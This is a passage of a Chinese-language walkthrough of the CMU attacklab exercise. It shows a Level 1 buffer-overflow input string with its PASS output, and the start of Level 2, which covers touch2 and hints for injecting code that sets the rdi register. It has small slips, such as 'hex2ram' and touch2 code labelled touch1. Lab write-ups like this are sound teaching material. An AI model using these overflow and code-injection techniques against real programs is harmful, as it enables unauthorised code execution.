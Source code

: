 ​	保存到文件phase1.txt中

4)  将字符串转化为字节码：

使用hex2raw工具将phase1.txt转化为字节码，保存到文件phase1_input.txt中：

```
hex2ram < phase1.txt > phase1_input.txt
```

5)  再执行ctarget，查看结果：

使用如下命令测试，同时查看结果：

```
./ctarget -qi phase1_input.txt
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 0000 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00
```

Level 1通过。 

### Level 2

Level 2需要插入一小段代码。ctarget中有一小段程序touch1，其C代码如下：

```C++
void touch2(unsigned val){
    vlevel = 2;  /* Part of validation protocol */
    if (val == cookie){
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

我们的任务同样是让ctarget程序执行touch2而不是返回test，但是touch2函数需要传入一个参数，且实验要求这个参数是是我们的Cookie，上一个phase已经知道Cookie：0x59b997fa。实验也提供了一些建议：

- 使用ret指令调用touch2函数
- touch2的参数要存在rdi寄存器中
- 插入的代码应该设置寄存器存着Cookie，然后再返回touch2
- 不用jmp和call指令
- 使用gcc和objdump生成要插入代码的字节码格式

具体步骤如下：
